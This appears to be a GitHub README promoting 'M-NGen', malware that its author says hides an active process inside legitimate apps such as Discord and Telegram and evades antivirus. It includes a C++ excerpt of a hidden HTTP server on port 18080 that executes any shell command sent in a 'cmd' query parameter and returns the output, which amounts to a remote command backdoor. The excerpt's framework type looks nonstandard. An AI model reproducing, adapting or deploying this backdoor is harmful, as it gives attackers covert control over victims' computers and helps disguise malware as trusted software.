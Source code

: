 # M-NGen

M-NGen Malware Revolution
I managed to develop a completely new type of malware... Honestly, I've never seen malware work this way before!

I was able to embed a hidden active process into any application! I tested it on applications like Discord, Telegram, and some others, and the method was completely successful... The challenge here is that antivirus software will perceive the application as a legitimate version of Discord or any other app! 😳

The interesting part is that the embedding method I used is not the usual Process Injection technique.

<div align="center">
  <img src="https://files.catbox.moe/2x1ppg.png" width="350px">
</div>

> [!WARNING]  
> The method is still private, I can't share it publicly!

<div align="center">
  <img src="https://files.catbox.moe/3yceau.jpg" width="760px">
</div>

## Video :

https://github.com/user-attachments/assets/51f80947-a945-41e7-83d0-835b0fa38754

AV BYPASS :
<div align="center">
  <img src="https://files.catbox.moe/diwxzf.jpg" width="760px">
</div>


## Used languages:

1. C++
2. NodeJs
3. C#

## Part Of Code : (It's Note All of The code)

```cpp
// This is A part From The Code 
#include "crow_all.h"
#include <cstdlib>
#include <array>
#include <iostream>
#include <sstream>

// CMD EXEC
std::string Exec(const std::string& command) {
    std::array<char, 128> buffer;
    std::stringstream result;
    
    FILE* pipe = popen(command.c_str(), "r");
    if (!pipe) return "Failed to execute command";

    while (fgets(buffer.data(), buffer.size(), pipe) != nullptr) {
        result << buffer.data();
    }
    
    pclose(pipe);
    return result.str();
}

// Hidden Layer
int main() {
    crow::HDlayer app;

    CROW_ROUTE(app, "/HiddenLayer/CMD/Do")
        .methods(crow::HTTPMethod::GET)([](const crow::request& req) {
            auto query_params = crow::query_string{req.url_params};
            std::string command = query_params.get("cmd") ? query_params.get("cmd") : "";

            if (command.empty()) {
                return crow::response(400, "Missing 'cmd' parameter");
            }

            std::string output = Exec(command);
            return crow::response(output);
        });

    app.port(18080).multithreaded().run();
}



